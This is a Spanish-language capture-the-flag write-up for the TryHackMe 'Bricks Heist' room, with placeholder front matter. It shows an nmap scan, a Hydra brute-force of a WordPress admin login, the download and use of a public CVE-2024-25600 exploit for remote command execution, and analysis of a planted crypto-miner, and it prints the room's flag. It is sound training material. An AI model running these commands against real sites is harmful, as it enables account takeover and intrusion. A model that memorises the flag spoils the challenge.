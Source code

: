 ```yaml
---
title: "trikc"
platform: "THM"
publishedAt: 2025-05-09
cover: "/images/ctf/nota2-cover.webp"
preview: "vbrgbrgbhhrtbr"
tags: [rockyou, Hydra]
link: "pruweba.link"
toc:
  - text: "🔍 Reconocimiento inicial"
    id: "reconocimiento-inicial"
  - text: "🎯 Enumeración de WordPress"
    id: "enumeracion-de-wordpress"
  - text: "🔓 Acceso inicial"
    id: "acceso-inicial"
  - text: "💥 Explotación del CVE"
    id: "explotacion-del-cve"
  - text: "🐚 Post-explotación"
    id: "post-explotacion"
  - text: "📁 Análisis del miner"
    id: "analisis-del-miner"
  - text: "🔓 Decodificación de wallet"
    id: "decodificacion-de-wallet"
  - text: "🕵️ Asociación con grupo de amenazas"
    id: "asociacion-con-grupo-de-amenazas"
  - text: "✅ Conclusión"
    id: "conclusion"
---
```


---


# 🧱 TryHackMe – Bricks Heist | Write-up técnico


![image.png](/images/ctf/nota2-0.webp)


En este reto de TryHackMe nos enfrentamos a un escenario en el que un sitio WordPress ha sido comprometido por un actor malicioso. Nuestra misión es investigar, identificar cómo se produjo el ataque, qué malware fue desplegado, y qué grupo está detrás.


---


## 🔍 Reconocimiento inicial


Comenzamos con un escaneo completo:


```shell
bash
CopyEdit
nmap -sCV -p- 10.10.72.226
```


Se detectan los siguientes servicios:

- **22/tcp** – OpenSSH
- **80/tcp** – WebSockify (retorna error 405)
- **443/tcp** – Apache + WordPress 6.5
- **3306/tcp** – MySQL (sin autenticación)

---


## 🎯 Enumeración de WordPress


Usando `curl` y `wpscan`, identificamos que el tema activo es **Bricks**.


Al buscar vulnerabilidades conocidas, encontramos el CVE:

- **CVE-2024-25600**: vulnerabilidad crítica que permite ejecución remota de comandos desde el editor del tema Bricks.

---


## 🔓 Acceso inicial


Tras enumerar el usuario `administrator`, ejecutamos fuerza bruta con `hydra` y obtenemos acceso:


```shell
bash
CopyEdit
hydra -l administrator -P rockyou.txt https://bricks.thm -s 443 -S -f \
http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:S=Location: /wp-admin/"
```


---


## 💥 Explotación del CVE


Usamos el exploit público para el CVE-2024-25600:


```shell
bash
CopyEdit
wget https://raw.githubusercontent.com/K3ysTr0K3R/CVE-2024-25600-EXPLOIT/main/CVE-2024-25600.py
```


Al ejecutarlo con credenciales válidas, logramos ejecutar comandos remotos y abrir una **shell interactiva**:


```shell
bash
CopyEdit
python3 CVE-2024-25600.py --url https://bricks.thm --username administrator --password ***** --cmd id
```


---


## 🐚 Post-explotación


Accedemos a `/var/www/html/` y encontramos la flag inicial:


```plain text
CopyEdit
THM{fl46_650c844110baced87e1606453b93f22a}
```


Revisamos los procesos activos y servicios del sistema, encontrando uno sospechoso:


```shell
bash
CopyEdit
ubuntu.service - TRYHACK3M
ExecStart=/lib/NetworkManager/nm-inet-dialog
```


El proceso asociado es: `nm-inet-dialog`.


---


## 📁 Análisis del miner


Identificamos el archivo de log del minero en:


```shell
bash
CopyEdit
/lib/NetworkManager/inet.conf
```


Este archivo contiene líneas como:


```plain text
css
CopyEdit
[*] Bitcoin Miner Thread Started
```


Y una clave codificada como:


```plain text
makefile
CopyEdit
ID: WW1NeGNY...
```


---


## 🔓 Decodificación de wallet


Decodificando el valor de `ID` en base64 (dos veces), obtenemos:


```plain text
nginx
CopyEdit
bc1qyk79fcp9hd5kreprce89tkh4wrtl8avt4l67qa
```


Una dirección de Bitcoin válida (Bech32) usada para recibir ganancias del minero.


---


## 🕵️ Asociación con grupo de amenazas


Rastreando la dirección en fuentes OSINT, encontramos que ha sido usada en transacciones ligadas al grupo de ransomware **LockBit**.


---


## ✅ Conclusión


Este reto combina:

- Enumeración de WordPress
- Explotación real de CVE
- Escalada post-explotación
- Análisis forense y OSINT

**Una práctica redonda** para cualquier profesional de ciberseguridad ofensiva o defensiva.

